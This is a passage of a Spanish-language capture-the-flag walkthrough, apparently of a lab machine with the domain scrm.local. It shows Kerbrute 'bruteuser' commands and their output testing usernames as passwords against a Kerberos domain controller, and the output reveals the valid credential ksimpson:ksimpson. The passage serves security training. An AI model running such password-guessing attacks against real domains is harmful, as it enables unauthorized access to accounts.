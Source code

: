 ```bash
```
Muy bien, tenemos 4 usuarios más del que ya conocíamos, cópialos en un archivo de texto en minúsculas.

<br>

<h3 id="bruteF">Aplicando Fuerza Bruta con Kerbrute para Encontrar Contraseña Válida</h3>

Si bien sabemos que algunas contraseñas pueden ser usadas en distintos usuarios, también debemos tener en cuenta que los mismos nombres de los usuarios, los pueden usar como contraseña del mismo usuario.

Podemos comprobar si algún nombre de usuario, sirve como contraseña del mismo usuario o de otros utilizando el **ataque bruteuser de Kerbrute**.

Vamos a probarlo con el archivo de los usuarios que ya tenemos:
```bash
cat users
asmith
jhall
ksimpson
khicks
sjenkins
```

Prueba el ataque con cada nombre de usuario:
```bash
./kerbrute_linux_amd64 bruteuser --dc 10.10.11.168 -d scrm.local users asmith
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/01/24 - Ronnie Flathers @ropnop
2024/10/01 14:27:56 >  Using KDC(s):
2024/10/01 14:27:56 >   10.10.11.168:88
2024/10/01 14:27:56 >  Done! Tested 5 logins (0 successes) in 0.318 seconds

./kerbrute_linux_amd64 bruteuser --dc 10.10.11.168 -d scrm.local users jhall
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/01/24 - Ronnie Flathers @ropnop
2024/10/01 16:08:26 >  Using KDC(s):
2024/10/01 16:08:26 >   10.10.11.168:88
2024/10/01 16:08:27 >  Done! Tested 5 logins (0 successes) in 0.321 seconds

./kerbrute_linux_amd64 bruteuser --dc 10.10.11.168 -d scrm.local users ksimpson
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/01/24 - Ronnie Flathers @ropnop
2024/10/01 14:27:39 >  Using KDC(s):
2024/10/01 14:27:39 >   10.10.11.168:88
2024/10/01 14:27:40 >  [+] VALID LOGIN:  ksimpson@scrm.local:ksimpson
2024/10/01 14:27:40 >  Done! Tested 5 logins (1 successes) in 0.308 seconds

./kerbrute_linux_amd64 bruteuser --dc 10.10.11.168 -d scrm.local users khicks
    __             __               __     
```